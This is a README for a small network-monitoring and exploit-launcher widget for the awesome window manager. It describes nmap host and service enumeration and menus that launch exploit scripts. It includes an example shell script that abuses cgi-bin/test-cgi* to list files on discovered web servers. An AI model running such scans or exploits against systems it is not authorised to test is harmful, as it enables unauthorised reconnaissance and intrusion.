 Svirneblin Network Monitoring and Local Vulnerability Evaluation Toolkit
========================================================================

This is a tool for enumerating the hosts on a local network and for evaluating
the security of those hosts in a quick, automatic way. It just generates tiers
of menus which enumerate local hosts and the services running on those hosts.
Optionally, if it finds scripts which exploit potential vulnerabilities in those
services in a directory(Either /usr/bin/exploits or $HOME/.bin/exploits) it will
generate a menu for launching those scripts in a terminal under the enumerated
services in the menu. It's not compatible with any existing vulnerability
framework, but it shouldn't be particularly difficult to wrap your applications
up in the exploits/ folder. An example script exploiting the shellshock
vulnerability will be included as an example shortly.

**Don't use this version unless you are interested in testing the features of**
**the script.** It's not capable of updating the menu asynchronously yet which
means that it will take a long time for your window manager to start up, and
you'll have to restart the window manager to refresh the menu.

        [X] Menu Generation
        [X] Service Scanning
        [X] Potential Exploit Scanning
        [x] Example Exploit(Untested)
        [/] Asynchronous Updates(Getting there. The scan and show functions are
           now split. Call the scan function(sv-nm-hosts) from shell once, or
           periodically with a cron job to get updates in the interface.) This
           drastically reduces the startup lag.
        [_] Exploit Library
        [_] Custom Port Ranges
        [_] Service Scanning

**For install documentation, see** [INSTALL](https://github.com/cmotc/svirfneblin-netmonitor-widget/blob/master/INSTALL.md)

**For documentation on extending with your own scripts, see** [SCRIPTING](https://github.com/cmotc/svirfneblin-netmonitor-widget/blob/master/INSTALL.md). This will be changing alot, fairly soon.

How it works:
-------------
It uses 3 wrapper scripts to turn data from the shell into lists that can be
used to create hierarchical awesome menus and launchers. The code's not
particularly concise yet, but it's pretty well labeled except in that one area.

###Refreshing the Menu
I wouldn't recommend setting a timer to automatically refresh the menu at an
interval, as this version is not yet capable of doing so asynchronously and it
will stall while the window manager while it's scanning your network.

###Menu Level 1: Computers Nearby
This list is formulated by determining which networks you are connected to and
guessing which IP ranges are being assigned by those networks, then scanning
those ranges with nmap and organizing that data into the first level menu. This
should be enough to discover all hosts on most SOHO networks and display them
in the menu.

####Example Gateway in Menu Level 1 with Host Name:

        wrt54g (192.168.1.1) Host is up (0.0018s)

####Example Host with Hostname

        MemA 192.168.1.4 Host is up (0.0010s)

####Example Host with IP address

        for 192.168.1.105 Host is up (0.0012s)

I might add the capability to scan custom IP ranges soon too but for now it only
scans the local network automatically.

###Menu Level 2: Service Scanning
This list is formulated by scanning the running services on the discovered hosts
with nmap and turning the service data into an table which can be used as an
awesome widget, which is then made into a submenu under the corresponding host's
entry in the menu.

####Example DNS Service

        53/tcp open domain

####Example HTTP Service

        80/tcp open domain

There could be more information about services, otherwise this one is unlikely
to change much.

###Menu Level 3a: Potential Attacks
This list is formulated from scripts in 2 folders, one at /usr/bin/exploits and
$HOME/.bin/exploits. The script must have the name of the service it intends to
target in it's own name(like http-cgi-testcgils.sh)

####Example exploit script: Exploiting cgi-bin/test-cgi* to list files

        #! /bin/sh
        export EXPLOIT_NAME="CGIlscommand"
        export EXPLOIT_FIRE="cgils_run"
        cgils_run(){
            alias wget=\wget --user-agent=Mozilla
            EXPLOIT_TMP=$HOME/.tmp/svirfneblin-netmonitor-exploit/$EXPLOIT_NAME
            mkdir -p $EXPLOIT_TMP
            cd $EXPLOIT_TMP
            #attempt to find cgi scripts by exploiting cgi-bin/test-cgi*
            mkdir -p "$EXPLOIT_TMP/$1"
            cd "$1"
            CGI_LISTING=$(curl "http://$1/cgi-bin/test-cgi*")
            echo $CGI_LISTING
        }

####The script above will become visible in the menu under any discovered HTTP services

        Host Name/IP-+
                     |
                     +-Service Name-+
                                    |
                                    +-<< CGIlscommand >>



###Menu Level 3b: Service Fingerprinting
Not implemented yet, but this will give you more information about the services
remote hosts are running and may be promoted between service name and attack
menu to help refine the selection process.
